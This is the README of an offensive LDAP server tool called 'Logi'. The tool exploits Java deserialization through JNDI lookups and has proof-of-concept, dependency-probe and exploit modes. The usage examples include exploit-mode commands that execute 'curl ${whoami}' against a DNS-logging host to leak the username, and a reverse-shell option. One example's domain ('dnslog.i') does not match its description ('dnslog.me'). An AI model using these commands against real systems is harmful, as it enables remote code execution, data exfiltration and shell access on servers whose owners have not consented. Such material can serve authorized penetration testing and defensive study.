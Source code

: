# LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [LOGI](#logi)
  - [Get started](#get-started)
  - [How it work](#how-it-work)
  - [Examples](#examples)
  - [See also](#see-also)

## Get started
Download logi from release.
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit

SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")

PROBE CONFIG:
   -d, -domain string     domain for dns lookup
   -w, -dictname string   wordlist name for probe, support: yso, jndi, mvn (default "yso")
   -wp, -dictpath string  wordlist path for probe

EXPLOIT CONFIG:
   -g, -gadget string   gadget for exploit, support: cb1v18, cb1v19
   -c, -command string  command for exploit
   -s, -shell string    reverse shell, e.g. 127.0.0.1:7777
```

## How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize 
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)
